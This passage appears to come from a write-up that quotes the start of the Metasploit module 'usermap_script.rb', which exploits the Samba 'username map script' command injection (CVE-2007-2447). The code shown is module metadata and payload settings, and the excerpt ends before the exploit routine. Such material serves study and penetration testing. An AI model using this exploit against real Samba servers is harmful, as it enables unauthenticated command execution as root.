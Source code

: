 It’s pretty short:

```

##
# $Id: usermap_script.rb 10040 2010-08-18 17:24:46Z jduck $
##

##
# This file is part of the Metasploit Framework and may be subject to
# redistribution and commercial restrictions. Please see the Metasploit
# Framework web site for more information on licensing and terms of use.
# http://metasploit.com/framework/
##

require 'msf/core'

class Metasploit3 < Msf::Exploit::Remote
        Rank = ExcellentRanking

        include Msf::Exploit::Remote::SMB

        # For our customized version of session_setup_ntlmv1
        CONST = Rex::Proto::SMB::Constants
        CRYPT = Rex::Proto::SMB::Crypt

        def initialize(info = {})
                super(update_info(info,
                        'Name'           => 'Samba "username map script" Command Execution',
                        'Description'    => %q{
                                        This module exploits a command execution vulnerability in Samba
                                versions 3.0.20 through 3.0.25rc3 when using the non-default
                                "username map script" configuration option. By specifying a username
                                containing shell meta characters, attackers can execute arbitrary
                                commands.

                                No authentication is needed to exploit this vulnerability since
                                this option is used to map usernames prior to authentication!
                        },
                        'Author'         => [ 'jduck' ],
                        'License'        => MSF_LICENSE,
                        'Version'        => '$Revision: 10040 $',
                        'References'     =>
                                [
                                        [ 'CVE', '2007-2447' ],
                                        [ 'OSVDB', '34700' ],
                                        [ 'BID', '23972' ],
                                        [ 'URL', 'http://labs.idefense.com/intelligence/vulnerabilities/display.php?id=534' ],
                                        [ 'URL', 'http://samba.org/samba/security/CVE-2007-2447.html' ]
                                ],
                        'Platform'       => ['unix'],
                        'Arch'           => ARCH_CMD,
                        'Privileged'     => true, # root or nobody user
                        'Payload'        =>
                                {
                                        'Space'    => 1024,
                                        'DisableNops' => true,
                                        'Compat'      =>
                                                {
                                                        'PayloadType' => 'cmd',
```